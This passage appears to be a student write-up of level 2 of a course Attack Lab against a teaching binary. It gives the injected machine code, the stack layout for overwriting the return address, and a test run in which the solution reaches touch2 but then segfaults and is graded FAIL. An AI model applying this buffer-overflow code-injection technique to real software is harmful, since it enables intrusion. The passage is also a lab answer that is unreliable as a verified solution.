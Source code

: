 <br>

We can then get the byte representation of the code above:
```c
ctarget.l2.code.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	48 83 c4 0C          	add    $0xC,%rsp
   b:	c3                   	retq   
```

<br>

Our stack structure would be as follows:

<center>

|  Stack Structure      | Size     |
| --------------------- | -------- |
| address of `touch2`   |          |
| `mov $0x59b997fa,%rdi`| 7 bytes  |
| `add $0xC,%rsp`       | 4 bytes  |
| `ret`                 | 1 byte   |
| address of `mov` (overwrites original return address) | 8 bytes  |
| data                  | 40 bytes |

</center>

- *Why did we add 12 to the stack pointer? Note that after reaching the `mov` instruction, our stack pointer is pointing to `ret` (for we would have popped the address of `mov` from the stack). We want it to point to the address of `touch2`, which means we need to increment it by 7 + 4 + 1 bytes, which gives 12, or `0x0C`.*

<br>

Test:

```
$ ./hex2raw < ctarget.l2.exploit.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:FAIL:0xffffffff:ctarget:0:33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 A8 DC 61 55 00 00 00 00 48 C7 C7 FA 97 B9 59 48 83 C4 0C C3 EC 17 40 00 00 00 00 00
```
